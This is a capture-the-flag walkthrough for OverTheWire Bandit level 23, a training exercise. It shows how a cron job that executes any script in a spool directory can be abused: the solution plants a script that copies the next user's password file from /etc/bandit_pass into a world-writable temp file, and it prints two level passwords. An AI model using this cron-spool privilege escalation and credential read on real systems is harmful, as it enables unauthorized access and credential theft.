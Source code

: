 <h1>Bandit 23</h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> Looking at shell scripts written by other people is a
very useful skill. The script for this level is intentionally made
easy to read. If you are having problems understanding what it does,
try executing it to see the debug information it prints.</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit23@bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

bandit23@bandit:~$ ls
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

If we have a file that is owned by ourself in that directory, it will be executed!

```
bandit23@bandit:~$ mkdir /tmp/mytmp
bandit23@bandit:~$ vim /tmp/mytmp/runme.sh
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 >> /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ touch /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ chmod 777 -R /tmp/mytmp/
bandit23@bandit:~$ cp /tmp/mytmp/runme.sh /var/spool/bandit24/runme.sh
```

And after waiting a minute:

```
bandit23@bandit:~$ cat /tmp/mytmp/psswrd.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

<a href="bandit22.md">Level 22</a>
<a href="bandit24.md">Level 24</a>
